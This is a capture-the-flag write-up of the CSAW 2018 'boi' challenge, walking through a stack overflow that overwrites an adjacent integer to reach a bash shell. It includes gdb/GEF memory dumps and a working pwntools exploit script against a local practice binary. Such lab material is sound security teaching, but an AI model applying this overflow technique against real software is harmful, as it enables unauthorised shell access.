


# Csaw 2018 Quals Boi

Let's take a look at the binary:




So we can see that we are dealing with a 64 bit binary with a Stack Canary and Non-Executable stack (those are two binary mitigations that will be discussed later). When we run the binary, we see that we are prompted for input (which we gave it `15935728`). It then provided us with the time and the date. When we look at the main function in Ghidra we see this:


So we can see the program prints the string `Are you a big boiiiii??` with `puts`. Then it proceeds to scan in `0x18` bytes worth of data into `input`. In addition to that we can see that the `target` integer is initialized before the `read` call, then compared to a value after the `read` call. Looking at the if then statement, we see if it passes, then it will give us a shell with the `run_cmd("/bin/bash");` command (so that's what we want to do in order to solve the challenge). Looking at the decompiled code shows us the constants it is assigned and compared to as signed integers, however if we look at the assembly code we can see the constants as unsigned hex integers:


We can see that the value that it is being assigned is `0xdeadbeef`:


We can also see that the value that it is being compared to is `0xcaf3baee`:


Now to see what our input can reach, we can look at the stack layout in Ghidra. To see this you can just double click on any of the variables where they are declared:


Here we can see that according to Ghidra input is stored at offset `-0x38`. We can see that target is stored at offset `-0x24`. This means that there is a `0x14` byte difference between the two values. Since we can write `0x18` bytes, that means we can fill up the `0x14` byte difference and overwrite four bytes (`0x18 - 0x14 = 4`) of `target`, and since integers are four bytes we can overwrite. Here the bug is it is letting us write `0x18` bytes worth of data to a `0x14` byte space, and `0x4` bytes of data are overflowing into the `target` variable which gives us the ability to change what it is (so we should be able to set it to the value, that will control if we pass the if then check, and solve the challenge). Taking a look at the memory layout in gdb gives us a better description. We set a breakpoint for directly after the `read` call and see what the memory looks like:

```
nightma@re$ gdb ./boi 
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04.1) 9.2
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
90 commands loaded and 5 functions added for GDB 9.2 in 0.00ms using Python engine 3.8
Reading symbols from ./boi...
(No debugging symbols found in ./boi)
gef➤  b *0x4006a5
Breakpoint 1 at 0x4006a5
gef➤  r
Starting program: /Hackery/new_nightmare/modules/04-bof_variable/csaw18_boi/boi 
[*] Failed to find objfile or not a valid file format: [Errno 2] No such file or directory: 'system-supplied DSO at 0x7ffff7fcd000'
Are you a big boiiiii??
15935728

Breakpoint 1, 0x00000000004006a5 in main ()


[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x9               
$rbx   : 0x000000004006e0  →  <__libc_csu_init+0> push r15
$rcx   : 0x007ffff7ed3fd2  →  0x5677fffff0003d48 ("H="?)
$rdx   : 0x18              
$rsp   : 0x007fffffffdf60  →  0x007fffffffe098  →  0x007fffffffe3a2  →  "/Hackery/new_nightmare/modules/04-bof_variable/csa[...]"
$rbp   : 0x007fffffffdfa0  →  0x0000000000000000
$rsi   : 0x007fffffffdf70  →  "15935728\n"
$rdi   : 0x0               
$rip   : 0x000000004006a5  →  <main+100> mov eax, DWORD PTR [rbp-0x1c]
$r8    : 0x18              
$r9    : 0x7c              
$r10   : 0xfffffffffffff3cd
$r11   : 0x246             
$r12   : 0x00000000400530  →  <_start+0> xor ebp, ebp
$r13   : 0x007fffffffe090  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero CARRY PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x007fffffffdf60│+0x0000: 0x007fffffffe098  →  0x007fffffffe3a2  →  "/Hackery/new_nightmare/modules/04-bof_variable/csa[...]"  ← $rsp
0x007fffffffdf68│+0x0008: 0x000000010040072d
0x007fffffffdf70│+0x0010: "15935728\n"   ← $rsi
0x007fffffffdf78│+0x0018: 0x0000000000000a ("\n"?)
0x007fffffffdf80│+0x0020: 0xdeadbeef00000000
0x007fffffffdf88│+0x0028: 0x0000000000000000
0x007fffffffdf90│+0x0030: 0x007fffffffe090  →  0x0000000000000001
0x007fffffffdf98│+0x0038: 0x4d6cce9e8cc68700
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400698 <main+87>        mov    rsi, rax
     0x40069b <main+90>        mov    edi, 0x0
     0x4006a0 <main+95>        call   0x400500 <read@plt>
●→   0x4006a5 <main+100>       mov    eax, DWORD PTR [rbp-0x1c]
     0x4006a8 <main+103>       cmp    eax, 0xcaf3baee
     0x4006ad <main+108>       jne    0x4006bb <main+122>
     0x4006af <main+110>       mov    edi, 0x40077c
     0x4006b4 <main+115>       call   0x400626 <run_cmd>
     0x4006b9 <main+120>       jmp    0x4006c5 <main+132>
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "boi", stopped 0x4006a5 in main (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4006a5 → main()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffdf70 - 0x7fffffffdf7a  →   "15935728\n" 
gef➤  x/10g 0x7fffffffdf70
0x7fffffffdf70: 0x3832373533393531  0xa
0x7fffffffdf80: 0xdeadbeef00000000  0x0
0x7fffffffdf90: 0x7fffffffe090  0x4d6cce9e8cc68700
0x7fffffffdfa0: 0x0 0x7ffff7dea083
0x7fffffffdfb0: 0x200000008 0x7fffffffe098

0x7fffffffdec0:    0x0    0x7fffffffdf98
```

Here we can see that our input `15935728` is `0x14` bytes away. When we give the input `00000000000000000000` + p32(`0xcaf3baee`). We need the hex address to be in least endian (least significant byte first) because that is how the elf will read in data, so we have to pack it that way in order for the binary to read it properly.

To do this, I use the `gen_inp.py` script:


Now let's actually see the input we generated in practice:

```
nightma@re$ gdb ./boi 
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04.1) 9.2
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
90 commands loaded and 5 functions added for GDB 9.2 in 0.00ms using Python engine 3.8
Reading symbols from ./boi...
(No debugging symbols found in ./boi)
gef➤  b *0x4006a5
Breakpoint 1 at 0x4006a5
gef➤  r < input
Starting program: /Hackery/new_nightmare/modules/04-bof_variable/csaw18_boi/boi < input
[*] Failed to find objfile or not a valid file format: [Errno 2] No such file or directory: 'system-supplied DSO at 0x7ffff7fcd000'
Are you a big boiiiii??

Breakpoint 1, 0x00000000004006a5 in main ()

[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x18              
$rbx   : 0x000000004006e0  →  <__libc_csu_init+0> push r15
$rcx   : 0x007ffff7ed3fd2  →  0x5677fffff0003d48 ("H="?)
$rdx   : 0x18              
$rsp   : 0x007fffffffdf60  →  0x007fffffffe098  →  0x007fffffffe3a2  →  "/Hackery/new_nightmare/modules/04-bof_variable/csa[...]"
$rbp   : 0x007fffffffdfa0  →  0x0000000000000000
$rsi   : 0x007fffffffdf70  →  0x3030303030303030 ("00000000"?)
$rdi   : 0x0               
$rip   : 0x000000004006a5  →  <main+100> mov eax, DWORD PTR [rbp-0x1c]
$r8    : 0x18              
$r9    : 0x7c              
$r10   : 0xfffffffffffff3cd
$r11   : 0x246             
$r12   : 0x00000000400530  →  <_start+0> xor ebp, ebp
$r13   : 0x007fffffffe090  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero CARRY PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x007fffffffdf60│+0x0000: 0x007fffffffe098  →  0x007fffffffe3a2  →  "/Hackery/new_nightmare/modules/04-bof_variable/csa[...]"  ← $rsp
0x007fffffffdf68│+0x0008: 0x000000010040072d
0x007fffffffdf70│+0x0010: 0x3030303030303030   ← $rsi
0x007fffffffdf78│+0x0018: 0x3030303030303030
0x007fffffffdf80│+0x0020: 0xcaf3baee30303030
0x007fffffffdf88│+0x0028: 0x0000000000000000
0x007fffffffdf90│+0x0030: 0x007fffffffe090  →  0x0000000000000001
0x007fffffffdf98│+0x0038: 0x3496b8bb604aaf00
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400698 <main+87>        mov    rsi, rax
     0x40069b <main+90>        mov    edi, 0x0
     0x4006a0 <main+95>        call   0x400500 <read@plt>
●→   0x4006a5 <main+100>       mov    eax, DWORD PTR [rbp-0x1c]
     0x4006a8 <main+103>       cmp    eax, 0xcaf3baee
     0x4006ad <main+108>       jne    0x4006bb <main+122>
     0x4006af <main+110>       mov    edi, 0x40077c
     0x4006b4 <main+115>       call   0x400626 <run_cmd>
     0x4006b9 <main+120>       jmp    0x4006c5 <main+132>
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "boi", stopped 0x4006a5 in main (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4006a5 → main()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  search-pattern 0000000000
[+] Searching '0000000000' in memory
[+] In '/usr/lib/x86_64-linux-gnu/libc-2.31.so'(0x7ffff7f60000-0x7ffff7fae000), permission=r--
  0x7ffff7f82190 - 0x7ffff7f821a0  →   "0000000000000000" 
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffdf70 - 0x7fffffffdf7a  →   "0000000000[...]" 
  0x7fffffffdf7a - 0x7fffffffdf84  →   "0000000000[...]" 
gef➤  x/10g 0x7fffffffdf70
0x7fffffffdf70: 0x3030303030303030  0x3030303030303030
0x7fffffffdf80: 0xcaf3baee30303030  0x0
0x7fffffffdf90: 0x7fffffffe090  0x3496b8bb604aaf00
0x7fffffffdfa0: 0x0 0x7ffff7dea083
0x7fffffffdfb0: 0x200000008 0x7fffffffe098
```

Here we can see that we have overwritten the integer with the value `0xcaf3baee`. When we continue onto the `cmp` instruction, we can see that we will pass the check:

```
gef➤  si
0x00000000004006a8 in main ()

[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0xcaf3baee        
$rbx   : 0x000000004006e0  →  <__libc_csu_init+0> push r15
$rcx   : 0x007ffff7ed3fd2  →  0x5677fffff0003d48 ("H="?)
$rdx   : 0x18              
$rsp   : 0x007fffffffdf60  →  0x007fffffffe098  →  0x007fffffffe3a2  →  "/Hackery/new_nightmare/modules/04-bof_variable/csa[...]"
$rbp   : 0x007fffffffdfa0  →  0x0000000000000000
$rsi   : 0x007fffffffdf70  →  0x3030303030303030 ("00000000"?)
$rdi   : 0x0               
$rip   : 0x000000004006a8  →  <main+103> cmp eax, 0xcaf3baee
$r8    : 0x18              
$r9    : 0x7c              
$r10   : 0xfffffffffffff3cd
$r11   : 0x246             
$r12   : 0x00000000400530  →  <_start+0> xor ebp, ebp
$r13   : 0x007fffffffe090  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero CARRY PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x007fffffffdf60│+0x0000: 0x007fffffffe098  →  0x007fffffffe3a2  →  "/Hackery/new_nightmare/modules/04-bof_variable/csa[...]"  ← $rsp
0x007fffffffdf68│+0x0008: 0x000000010040072d
0x007fffffffdf70│+0x0010: 0x3030303030303030   ← $rsi
0x007fffffffdf78│+0x0018: 0x3030303030303030
0x007fffffffdf80│+0x0020: 0xcaf3baee30303030
0x007fffffffdf88│+0x0028: 0x0000000000000000
0x007fffffffdf90│+0x0030: 0x007fffffffe090  →  0x0000000000000001
0x007fffffffdf98│+0x0038: 0x3496b8bb604aaf00
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x40069b <main+90>        mov    edi, 0x0
     0x4006a0 <main+95>        call   0x400500 <read@plt>
●    0x4006a5 <main+100>       mov    eax, DWORD PTR [rbp-0x1c]
 →   0x4006a8 <main+103>       cmp    eax, 0xcaf3baee
     0x4006ad <main+108>       jne    0x4006bb <main+122>
     0x4006af <main+110>       mov    edi, 0x40077c
     0x4006b4 <main+115>       call   0x400626 <run_cmd>
     0x4006b9 <main+120>       jmp    0x4006c5 <main+132>
     0x4006bb <main+122>       mov    edi, 0x400786
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "boi", stopped 0x4006a8 in main (), reason: SINGLE STEP
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4006a8 → main()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  p $eax
$1 = 0xcaf3baee
gef➤  
```

With all of that, we can write an exploit for this challenge:
```
# Import pwntools
from pwn import *

# Establish the target process
target = process('./boi')

# Make the payload
# 0x14 bytes of filler data to fill the gap between the start of our input
# and the target int
# 0x4 byte int we will overwrite target with
payload = b"0"*0x14 + p32(0xcaf3baee)

# Send the payload
target.send(payload)

# Drop to an interactive shell so we can interact with our shell
target.interactive()
```

When we run it:


Just like that, we popped a shell!
